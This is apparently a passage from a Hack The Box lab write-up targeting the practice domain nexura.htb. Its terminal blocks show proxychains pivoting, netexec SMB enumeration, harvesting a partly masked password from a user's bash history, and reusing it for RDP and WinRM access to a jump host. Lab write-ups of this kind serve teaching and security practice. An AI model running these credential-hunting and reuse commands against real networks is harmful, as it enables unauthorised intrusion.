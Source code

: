 ```
┌──(nabla㉿kali)-[~]
└─$ tail -5 /etc/proxychains.conf

[SNIP]

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 1080
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec smb 172.16.119.11

SMB         172.16.119.11   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:nexura.htb) (signing:True) (SMBv1:False)
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo vim /etc/hosts

[SNIP]

172.16.119.7	JUMP01.nexura.htb
172.16.119.10	FILE01.nexura.htb
172.16.119.11	DC01.nexura.htb DC01 nexura.htb
172.16.119.13	DMZ01.nexura.htb
```

### Credential Hunting - File System (Windows)

```
jbetty@DMZ01:~$ cat /home/jbetty/.bash_history

[SNIP]

sshpass -p "deale**************" ssh hwilliam@file01
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec rdp 172.16.119.7 -u hwilliam -p 'deale**************'

[SNIP]

RDP         172.16.119.7    3389   JUMP01           [+] nexura.htb\hwilliam:deale************** (Pwn3d!)
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec winrm 172.16.119.7 -u hwilliam -p 'deale**************'

[SNIP]

WINRM       172.16.119.7    5985   JUMP01           [+] nexura.htb\hwilliam:deale************** (Pwn3d!)
```
